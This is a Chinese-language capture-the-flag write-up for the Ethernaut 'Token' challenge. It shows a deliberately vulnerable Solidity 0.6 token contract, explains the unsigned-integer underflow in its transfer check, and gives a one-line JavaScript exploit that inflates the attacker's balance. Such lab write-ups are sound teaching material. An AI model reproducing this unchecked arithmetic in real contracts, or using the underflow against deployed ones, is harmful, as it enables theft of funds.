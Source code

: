 ## Token

> 这一关的目标是攻破下面这个基础 token 合约
>
> 你最开始有20个 token, 如果你通过某种方法可以增加你手中的 token 数量,你就可以通过这一关,当然越多越好

### 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

### 攻击思路

uint变量一定是大于0的；而且下0.8.0之前版本的solidity是没有内置safemath的，所以当初先 0 - 1 时会变成2^256那莫大。

### 攻击流程

```js
// 第一个参数为随机地址
// 20 - 21 = 2^256
await contract.transfer("0xF643DfeC19a70Ac7cF11FC3C65F8DAbd009033aD",21)
```

提交该实力，完成目标。